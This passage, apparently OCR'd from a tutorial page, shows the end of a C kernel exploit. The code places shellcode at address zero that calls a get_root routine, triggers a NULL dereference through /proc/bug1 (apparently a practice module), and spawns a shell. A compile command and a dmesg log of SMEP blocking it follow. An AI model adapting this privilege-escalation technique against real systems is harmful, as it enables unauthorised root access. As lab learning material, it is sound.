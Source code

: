```c
	    0xff, 0xd0, 0x48,                               // call rax
	};
	
	void **offset = 0;
	offset = rawmemchr(shellcode, 0x42);
	(*offset) = get_root;

	memcpy((void *)0, shellcode, sizeof(shellcode));
	
	printf("\e[36m[*] Stage 2 - Trigger NULL dereference\n");
	
    int fd = open("/proc/bug1", O_WRONLY);
    write(fd, "asdf", 4); // trigger
    
    get_shell(); // get shell
}
```

compile just like this.

```c
gcc -o tri tri.c
```

compile & run this program. But it'll not work on this system right away because of SMEP :(.
you can also see like this dmesg.

```c
[13416.790759] tri[5985]: segfault at c4f943d ip 00005570bdfcd8aa sp 00007ffd0c4f9420 error 6 in tri[5570bdfcd000+1000]
[13423.943053] tri[5989]: segfault at ffffffffd5f9799d ip 00005617eefed8aa sp 00007ffed5f97980 error 7 in tri[5617eefed000+1000]
[13683.767595] tri[6041]: segfault at 904db6d ip 00005587d5bdb907 sp 00007ffe0904db50 error 6 in tri[5587d5bdb000+1000]
[14006.136039] unable to execute userspace code (SMEP?) (uid: 1000)
[14006.136042] BUG: unable to handle kernel NULL pointer dereference at           (null)
[14006.136044] IP:           (null)
...
[14006.136122] RIP: 0010:          (null)
[14006.136123] RSP: 0018:ffffb2ca8636fdf0 EFLAGS: 00010286
[14006.136124] RAX: 0000000000000000 RBX: 0000000000000004 RCX: ffffb2ca8636fef8
[14006.136125] RDX: 0000000000000004 RSI: 000056214844eb2f RDI: ffff907236ba2a00
[14006.136126] RBP: ffffb2ca8636fe00 R08: 0000000000000001 R09: 0000000000000002
[14006.136127] R10: 0000000000000000 R11: 0000000000000246 R12: fffffffffffffffb
[14006.136128] R13: ffffb2ca8636fef8 R14: 000056214844eb2f R15: ffff907236ba2a00
[14006.136129] FS:  00007f74c141f740(0000) GS:ffff907239680000(0000) knlGS:0000000000000000
[14006.136130] CS:  0010 DS: 0000 ES: 0000 CR0: 0000000080050033
[14006.136131] CR2: 0000000000000000 CR3: 0000000067984004 CR4: 00000000003606e0
[14006.136152] DR0: 0000000000000000 DR1: 0000000000000000 DR2: 0000000000000000
[14006.136153] DR3: 0000000000000000 DR6: 00000000fffe0ff0 DR7: 0000000000000400

```
